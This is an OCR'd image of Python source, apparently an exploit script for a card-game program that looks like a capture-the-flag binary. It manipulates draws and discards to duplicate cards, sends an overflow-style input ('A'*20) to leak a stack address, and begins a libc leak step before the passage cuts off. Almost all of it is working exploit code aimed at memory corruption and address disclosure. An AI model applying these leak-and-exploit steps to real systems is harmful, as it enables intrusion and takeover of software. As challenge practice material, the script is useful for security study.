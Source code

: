 ```python
	- if idx 0x8 is K, A or As, discard + shuffle
	- repeat until you have ~10 A, ~10 K, ~30 As
	- redraw under 8 and discard/draw until AKSSS is found in left side
'''

num_kings = 4
num_aces = 3
num_spades = 1

# STEP 1: duplicate cards
while True:
	for _ in range(14):
		do_draw()
	hand = do_show()
	cards = hand.split(' ')[:-1]
	if cards[8] == ace_of_spades and cards[7] not in vital_cards:
		if num_spades < 30:
			do_discard()
			num_spades += 1
            # A primitive progress bar
			print(num_spades)
	elif cards[8] in kings and cards[7] not in vital_cards:
		if num_kings < 10:
			do_discard()
			num_kings += 1
	elif cards[8] in aces and cards[7] not in vital_cards:
		if num_aces < 10:
			do_discard()
			num_aces += 1
	do_fold()
	if num_spades > 24 and num_kings > 8 and num_aces > 8:
		break

log.info("Done shuffling")

# STEP 2: stack leak and "gluing"
while True:
	points = 0
	num_cards = 5

	for _ in range(5):
		do_draw()

	hand = do_show()
	cards = hand.split()
	points = calc_hand(cards)
	if points == 16800:
		break
	do_fold()

leak = do_play(2, 'A'*20)
stack_leak = u32(leak.strip()[:4])
log.info('stack_leak: 0x%08x' % stack_leak)

# STEP 3: libc leak
while True:
	points = 0
	num_cards = 5

	for _ in range(5):
		do_draw()

	hand = do_show()
```